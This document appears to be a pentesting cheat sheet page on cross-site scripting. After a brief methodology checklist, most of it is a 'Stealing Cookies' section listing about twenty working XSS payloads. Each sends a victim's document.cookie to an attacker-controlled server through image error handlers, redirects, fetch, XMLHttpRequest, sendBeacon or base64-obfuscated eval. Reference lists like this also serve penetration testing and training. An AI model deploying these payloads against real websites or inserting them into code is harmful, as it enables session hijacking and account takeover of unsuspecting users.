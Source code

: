 ```yaml
---
description: Cross-site Scripting
icon: spider-black-widow
---
```


# XSS

{% hint style="info" %}
## <mark style="color:purple;">Methodology</mark>

* [ ] <mark style="color:purple;">Look if any value you control is being reflected in the</mark> <mark style="color:orange;">**`HTML`**</mark> <mark style="color:purple;">or used by</mark> <mark style="color:orange;">**`Javascript`**</mark> <mark style="color:purple;">code.</mark>
* [ ] <mark style="color:purple;">**Find the context**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">where it's</mark> <mark style="color:orange;">**`reflected/used`**</mark><mark style="color:purple;">.</mark>

***

### <mark style="color:purple;">Reflected XSS</mark>

*


{% endhint %}

***

{% hint style="danger" %}
## <mark style="color:purple;">Stealing Cookies</mark>

### <mark style="color:purple;">Key Condition -></mark> <mark style="color:orange;">**`HttpOnly`**</mark> <mark style="color:purple;">needs to be set to</mark> <mark style="color:orange;">**`false`**</mark>&#x20;

* <mark style="color:purple;">Use when injecting into an image tag where an</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**error event triggers:**</mark>

```html
<img src=x onerror=this.src="http://<YOUR_SERVER_IP>/?c="+document.cookie>
```

* <mark style="color:purple;">Use when you can inject an image and trigger a redirect via the</mark> <mark style="color:orange;">**`onerror`**</mark> <mark style="color:purple;">event:</mark>

```html
<img src=x onerror="location.href='http://<YOUR_SERVER_IP>/?c='+ document.cookie">
```

* <mark style="color:purple;">Use in situations where</mark> <mark style="color:orange;">**`JavaScript execution is possible`**</mark><mark style="color:purple;">, and you can send cookies via an image request with URL encoding:</mark>

```html
<script>new Image().src="http://<IP>/?c="+encodeURI(document.cookie);</script>
```

* <mark style="color:purple;">Use when</mark> <mark style="color:orange;">**`JavaScript execution is possible`**</mark><mark style="color:purple;">, and you need to send cookies using an</mark> <mark style="color:orange;">**`audio object`**</mark><mark style="color:purple;">:</mark>

```html
<script>new Audio().src="http://<IP>/?c="+escape(document.cookie);</script>
```

* <mark style="color:purple;">Use when</mark> <mark style="color:orange;">**`you can inject JavaScript`**</mark> <mark style="color:purple;">and want to redirect the user to a server with the cookies attached:</mark>

```html
<script>location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
```

* **Similar to the previous one; use when you can inject JavaScript to trigger a location change with cookies.**

```html
<script>location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
```

* **Use in scenarios where you can inject JavaScript to modify the `document.location` and send cookies.**

```html
<script>document.location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
```

* **Inject when you need to send cookies via `document.location.href` and trigger a redirect.**

```
<script>document.location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
```

* **Use when injecting JavaScript into a document to dynamically write an image that sends cookies.**

```
<script>document.write('<img src="http://<YOUR_SERVER_IP>?c='+document.cookie+'" />')</script>
```

* **Use when JavaScript execution is allowed and you need to assign a location redirect with cookies.**

```
<script>window.location.assign('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
```

* **Similar to the previous one, use when you need to access `window.location` properties dynamically.**

```
<script>window['location']['assign']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
```

* **Use when injecting JavaScript and need to modify `window.location.href` dynamically.**

```
<script>window['location']['href']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
```

* **Use when you can inject JavaScript and dynamically join the URL and cookies to redirect.**

```
<script>document.location=["http://<YOUR_SERVER_IP>?c",document.cookie].join()</script>
```

* <mark style="color:purple;">Use when</mark> <mark style="color:orange;">**`JavaScript`**</mark> <mark style="color:purple;">execution is possible and you can send cookies using an image object.</mark>

```html
<script>var i=new Image(); i.src="http://10.10.14.6/?c="+document.cookie;</script>
```

* **Use when you need to redirect with concatenation of cookies into a URL.**

```
<script>window.location="https://<SERVER_IP>/?c=".concat(document.cookie)</script>
```

* **Use in scenarios where you can send cookies via an XMLHttpRequest, often when targeting XSS vulnerabilities.**

```
<script>var xhttp=new XMLHttpRequest();xhttp.open("GET", "http://<SERVER_IP>/?c="%2Bdocument.cookie, true);xhttp.send();</script>
```

* **Use when you can inject base64-encoded JavaScript and execute it to send cookies.**

```
<script>eval(atob('ZG9jdW1lbnQud3JpdGUoIjxpbWcgc3JjPSdodHRwczovLzxTRVJWRVJfSVA+P2M9IisgZG9jdW1lbnQuY29va2llICsiJyAvPiIp'));</script>
```

* **Use when JavaScript is injectable and you need to send cookies via `fetch` with `no-cors` mode to avoid response handling.**

```
<script>fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', {method: 'POST', mode: 'no-cors', body:document.cookie});</script>
```

* **Use when you want to send cookies asynchronously in the background using the `sendBeacon` API, typically for stealthier attacks.**

```
<script>navigator.sendBeacon('https://ssrftest.com/x/AAAAA',document.cookie)</script>
```
{% endhint %}

